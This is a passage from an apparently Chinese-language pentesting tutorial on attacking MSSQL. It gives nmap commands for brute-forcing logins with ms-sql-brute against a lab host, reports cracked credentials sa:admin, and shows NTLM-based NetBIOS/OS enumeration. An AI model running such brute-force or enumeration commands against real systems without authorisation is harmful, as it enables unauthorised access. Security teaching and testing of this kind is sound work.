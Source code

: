 ### 对 mssql 进行暴力破解

```php
nmap -p1433 --script ms-sql-brute --script-args userdb=users.txt,passdb=pass.txt 192.168.3.130
```

可与看到，爆破成功账号 sa:admin  
![image.png](assets/1706232584-618723a1f83f2175d9b84f301681a5a6.png)  
通过对脚本 NSE 文件进行 cat，可与查看脚本使用方法。  
![image.png](assets/1706232584-324f4f950ff1cc94376758e9660f807f.png)

### 使用 NetBIOS 进行枚举

发送具有无效域和空凭据的 MS-TDS NTLM 身份验证请求将导致远程服务使用 NTLMSSP 消息进行响应，该消息公开信息，包括 NetBIOS、DNS 和操作系统版本。

```php
nmap -p1433 --script ms-sql-ntlm-info 192.168.3.130
```

![image.png](assets/1706232584-dc7e15849298f34172e57fc9ac02ca54.png)
